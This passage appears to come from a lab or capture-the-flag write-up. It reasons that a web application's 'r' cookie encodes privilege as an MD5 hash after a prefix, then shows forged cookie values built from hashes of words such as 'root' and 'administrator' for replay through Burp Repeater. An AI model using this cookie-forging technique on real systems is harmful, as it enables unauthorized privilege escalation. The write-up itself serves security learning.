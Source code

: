 So the 'r' cookie, related to the string 'limited', seems to grant the limited access. The 'u' cookie is built using the username presented to the server. Then, the 'r' cookie could give the privilege level with independence of the presented username.

In order to check this hypothesis, we will try several values for the 'r' cookie, using strings potentially adequate to provide more privileges.

-----
## (3) COOKIE MANIPULATION ATTACK

The Repeater function of Burp Proxy allows to intercept cookies and modify their value before sending them in a request to the server. We try the following values for the 'r' cookie:
```
$ echo -n "full" | md5sum
e9dc924f238fa6cc29465942875fe8f0  -
```
u=351e76680321232f297a57a5a743894a0e4a801fc3
r=351e766803e9dc924f238fa6cc29465942875fe8f0
```
$ echo -n "privileged" | md5sum
bd638b36d2814f488c1497cfe49eceea  -
```
u=351e76680321232f297a57a5a743894a0e4a801fc3
r=351e766803bd638b36d2814f488c1497cfe49eceea
```
$ echo -n "root" | md5sum
63a9f0ea7bb98050796b649e85481845  -
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e76680363a9f0ea7bb98050796b649e85481845
```
$ echo -n "unlimited" | md5sum
958f470d0b1c8fb2b9e62b48e8903299  -
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e766803958f470d0b1c8fb2b9e62b48e8903299
```
$ echo -n "complete" | md5sum
d9a22d7a8178d5b42a8750123cbfe5b1  -
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e766803d9a22d7a8178d5b42a8750123cbfe5b1
```
$ echo -n "total" | md5sum
fbb44b4487415b134bce9c790a27fe5e  -
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e766803fbb44b4487415b134bce9c790a27fe5e
```
$ echo -n "powered" | md5sum
e5830ea37baddded0c03777c3a2285e7  -
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e766803e5830ea37baddded0c03777c3a2285e7
```
$ echo -n "administrator" | md5sum
200ceb26807d6bf99fd6f4f0d1ca54d4 
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e766803200ceb26807d6bf99fd6f4f0d1ca54d4
```
$ echo -n "rooted" | md5sum
ad8058a084bee8a14a6f23efa52d39d0  -
```
u=351e76680363a9f0ea7bb98050796b649e85481845
r=351e766803ad8058a084bee8a14a6f23efa52d39d0
```
```